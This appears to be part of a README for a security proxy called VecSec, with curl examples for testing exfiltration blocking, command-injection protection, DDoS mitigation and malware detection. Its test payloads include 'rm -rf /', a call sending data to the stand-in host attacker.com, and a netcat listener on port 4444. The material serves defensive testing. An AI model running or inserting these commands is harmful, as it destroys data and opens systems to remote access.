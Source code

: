 **Data Exfiltration Prevention**
```bash
# Block attempts to exfiltrate data
curl "http://localhost:8080/?target=https://api.example.com/users" \
  -H "Authorization: Bearer token" \
  -d '{"query": "SELECT * FROM users WHERE password LIKE \"%admin%\""}'
```

**Command Injection Protection**
```bash
# Block command injection attempts
curl -X POST "http://localhost:8080/?target=https://api.example.com/exec" \
  -d '{"command": "rm -rf / && curl http://attacker.com/steal"}'
```

**DDoS Mitigation**
```bash
# Automatic rate limiting and IP blocking
for i in {1..1000}; do
  curl http://localhost:8080/health &
done
```

## 🚀 Getting Started Examples

### Example 1: Basic Proxy Setup

```bash
# Start VecSec
docker-compose up -d

# Test basic proxy functionality
curl "http://localhost:8080/?target=https://httpbin.org/get"

# Check security status
curl "http://localhost:8080/health"
```

### Example 2: Malware Detection

```bash
# Test malware detection
curl -X POST "http://localhost:8080/analyze" \
  -H "Content-Type: application/json" \
  -d '{
    "content": "rm -rf / && while true; do nc -l 4444; done",
    "use_ml": false
  }'
```

### Example 3: DDoS Protection

```bash
# View protection statistics
curl "http://localhost:8080/admin/ddos/stats"

# Block a suspicious IP
curl -X POST "http://localhost:8080/admin/ddos/block/192.168.1.100" \
  -H "Content-Type: application/json" \
  -d '{"duration": 3600}'
```

